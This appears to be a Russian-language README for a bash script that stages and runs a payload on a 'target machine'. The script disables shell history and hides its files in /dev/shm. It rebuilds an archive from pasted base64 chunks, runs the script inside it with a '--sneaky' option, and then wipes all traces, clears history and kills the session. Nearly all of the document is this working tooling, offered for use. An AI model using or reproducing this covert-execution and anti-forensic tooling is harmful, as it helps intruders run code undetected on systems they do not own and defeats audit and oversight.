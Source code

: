 # Инструкция по запуску на целевой машине

## Этап 1: Подготовка среды (выполняется **один раз**)

Скопируйте **ВЕСЬ** блок кода ниже и вставьте его в терминал целевой машины одним действием, затем нажмите Enter.

```bash
# --- НАЧАЛО БЛОКА ДЛЯ ЕДИНОРАЗОВОГО КОПИРОВАНИЯ ---

set -e
# --- Управление историей команд ---
_OLD_HISTCONTROL=${HISTCONTROL:-}
_OLD_HISTFILE=${HISTFILE:-}
export HISTCONTROL=ignoreboth
unset HISTFILE

# --- Создание временного окружения ---
_GUIDO_SESSION_DIR=$(mktemp -d --tmpdir=/dev/shm guido_bootstrap.XXXXXX 2>/dev/null || mktemp -d /tmp/guido_bootstrap.XXXXXX)
_GUIDO_ASSEMBLY_FILE="${_GUIDO_SESSION_DIR}/payload.b64"
touch "$_GUIDO_ASSEMBLY_FILE"

# --- Функция полной очистки ---
_guido_cleanup() {
  echo -e "\n\n[ОЧИСТКА] Произвожу полную очистку следов..."
  rm -rf "$_GUIDO_SESSION_DIR"
  unset _GUIDO_SESSION_DIR _GUIDO_ASSEMBLY_FILE
  export HISTCONTROL="$_OLD_HISTCONTROL"
  export HISTFILE="$_OLD_HISTFILE"
  unset _OLD_HISTCONTROL _OLD_HISTFILE
  unset -f guido_run _guido_cleanup
  history -c
  echo "[ОЧИСТКА] Все следы удалены. Принудительно завершаю сессию."
  kill -9 $$
}

# --- Установка "ловушки" (trap) ---
trap _guido_cleanup EXIT INT TERM

# --- Функция для запуска и активации очистки ---
# Распаковывает архив и запускает guido.sh из него
guido_run() {
    echo "[ЗАПУСК] Запускаю полезную нагрузку..."
    local EXEC_DIR
    EXEC_DIR=$(mktemp -d --tmpdir=/dev/shm guido_exec.XXXXXX 2>/dev/null || mktemp -d /tmp/guido_exec.XXXXXX)
    
    base64 -d "$_GUIDO_ASSEMBLY_FILE" | xz -d | tar -xf - -C "$EXEC_DIR"
    
    if [ -f "${EXEC_DIR}/guido.sh" ]; then
        bash "${EXEC_DIR}/guido.sh" "$@"
    else
        echo "[CRITICAL ERROR] Основной файл 'guido.sh' не найден после распаковки!"
    fi
    
    rm -rf "$EXEC_DIR"
}
set +e

clear
echo "=================================================================="
echo "Среда подготовлена. Функция 'guido_run' создана."
echo "Теперь используйте готовые блоки из ЭТАПА 2 для добавления частей."
echo "=================================================================="
# --- КОНЕЦ БЛОКА ДЛЯ ЕДИНОРАЗОВОГО КОПИРОВАНИЯ ---
```

## Этап 2: Передача частей

Для каждой части скопируйте соответствующий блок кода, замените плейсхолдер `{{...}}` на содержимое файла-части и выполните в терминале.

**<<< Для Части 1 >>>**
```bash
cat <<'END_OF_GUIDO' >> "$_GUIDO_ASSEMBLY_FILE"
{{PASTE_PART_1_CONTENT_HERE}}
END_OF_GUIDO
```

**<<< Для Части 2 >>>**
```bash
cat <<'END_OF_GUIDO' >> "$_GUIDO_ASSEMBLY_FILE"
{{PASTE_PART_2_CONTENT_HERE}}
END_OF_GUIDO
```

*(Если есть еще части, просто скопируйте шаблон выше и измените плейсхолдер, например, на `{{PASTE_PART_3_CONTENT_HERE}}`)*

## Этап 3: Запуск и самоуничтожение

После того как **ВСЕ** части были переданы, выполните команду `guido_run`.

**Вариант А: Запуск без аргументов**
```bash
 guido_run
```

**Вариант Б: Запуск с передачей аргументов в ваш скрипт** (например, `--sneaky --pretty`)
```bash
 guido_run --sneaky --pretty
```